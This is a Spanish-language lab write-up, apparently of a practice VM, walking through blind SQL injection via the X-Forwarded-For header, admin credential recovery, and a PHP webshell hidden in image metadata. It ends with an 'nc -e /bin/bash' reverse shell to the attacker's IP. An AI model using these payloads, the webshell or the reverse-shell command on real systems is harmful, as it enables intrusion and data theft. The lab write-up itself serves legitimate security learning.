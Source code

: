 ```yaml
---
layout: post
title: From QSL to Shell II
subtitle: "From QSL to Shell II"
tag: [python,sqli]
---
```


## Puertos abiertos

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture
MAC Address: 00:0C:29:B5:03:7F (VMware)
```

## Servicio web 80

![web](../assets/imgs/pl/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -t 200 -c -r
[...]
.hta                    [Status: 403, Size: 169, Words: 4, Lines: 8]
.htaccess               [Status: 403, Size: 169, Words: 4, Lines: 8]
.htpasswd               [Status: 403, Size: 169, Words: 4, Lines: 8]
                        [Status: 200, Size: 1367, Words: 389, Lines: 72]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
index.php               [Status: 200, Size: 1367, Words: 389, Lines: 72]
```

Además de los métoos `GET`, `POST` y las `cookies`, hay otros valores que son susceptibles a las inyecciones SQL. En este caso particular se centrará en el valor **X-Forwarded-For** que utiliza el servidor para determinar la IP de un usuario cuando la aplicación está detrás de un proxy inverso.

Podemos probar si este valor es vulnerable creando una solicitud `HTTP GET` al servidor e inyectando SQL directamente en este valor. Usaré la explotación basada en el tiempo para probar la vulnerabilidad midiendo el tiempo de respuesta de la solicitud GET.

Desde `BurpSuite` se visualizará mejor el PoC de la inyección.

Header vulnerable: `X-Forwarded-For: test'or sleep(3)-- -`

![burp](../assets/imgs/pl/burp.png)

Entonces crearé unos scripts para obtener los datos a travéz de SQL a ciegas.

### Obtener base de datos

[ddbb.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/database.py)

![database](../assets/imgs/pl/database.png)

### Obtener tablas

[tablas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/tablas.py)

```
[◢] Payload: test' or IF(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema='photoblog' LIMIT 7,1),3,1)=BINARY(0x76),sleep(3),1)-- -
[+] Tabla [0]: categorie
[+] Tabla [1]: pictures
[+] Tabla [2]: stats
[+] Tabla [3]
[+] Tabla [4]
[+] Tabla [5]
[+] Tabla [6]
[ ] Tabla [7]
[-] Saliendo
```

### Obtener columnas

[columnas.py](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/columnas.py)

![columnas](../assets/imgs/pl/columnas.png)

### Obtener registros

[regitros](https://github.com/debiantano/code/blob/main/python3/autopwn/blind_sql/registros.py)

![registro](../assets/imgs/pl/registro.png)

Obteniendo la contraseña del usuario administrador

![crack](../assets/imgs/pl/crack.png)
admin :: P4ssw0rd

Después de estar logueado como usuario `admin` encuentro una opción donde se permite la subida de imágenes pero sólo con extensiones `jpg,png o gif`.

Inyecto código `php` con la herramienta `exiftool`.
```
❯ exiftool -Comment="<?php system(\$_GET['cmd']); ?>" shell.png
```

Visualizando la metadata de la imágen

```
❯ exiftool img.jpg
[...]
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Comment                         : <?php system($_GET['c']); ?>
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
[...]
```

### Usuario www-data

`http://192.168.0.100/admin/uploads/1632603690.png/c.php?c=nc%20-e%20/bin/bash%20192.168.0.107%204444`

![shell](../assets/imgs/pl/shell.png)


